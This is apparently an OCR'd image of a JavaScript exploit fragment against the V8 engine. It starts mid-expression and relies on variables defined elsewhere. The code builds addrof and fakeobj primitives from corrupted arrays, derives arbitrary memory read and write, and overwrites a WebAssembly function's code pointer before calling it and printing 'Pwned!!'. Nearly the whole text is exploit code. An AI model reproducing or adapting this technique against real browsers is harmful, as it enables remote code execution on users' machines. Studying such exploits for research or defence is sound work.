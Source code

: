 ```js
    .exportFunc();

function write_val(arr,val){
  arr[0] = val;
  return;
}

let instance = builder.instantiate({});

let wasm = instance.exports;


var w_array = wasm.createArray(0x082d0641+8);
w_array[0] = 0xffff;
console.log("Target arr length --> " + arr2.length) 

function addrof(obj){
  arr1[0]=obj;
  return lower(ftoi(arr2[2]));
}

function fakeobj(addr){
  arr2[2]=itof(addr);
  return arr1[0];
}


function arb_write(addr,val){
    temp[1]=itof((0x1fffen<<32n)+addr-8n);
    fake_object[0]=itof(val);
}
  
function arb_read(addr){
    temp[1]=itof((0x1fffen<<32n)+addr-8n);
    return ftoi(fake_object[0]);
} 

let temp = [1.1,1.1]
temp[0] = itof(0x08000725081cce15n);
temp[1] =itof(0x1fffen<<32n);

temp_addr = addrof(temp);

console.log(hex(temp_addr.toString(16)));

fake_object = fakeobj(temp_addr+0x20n);

pwn_addr = addrof(pwn);

var code = arb_read(pwn_addr+0xcn) &0xffffffffn;

console.log(hex(code.toString(16)));

var code_start = arb_read(code+0x14n)

arb_write(code+0x14n,code_start+0x60n);

console.log("Pwned!!");

pwn();

```
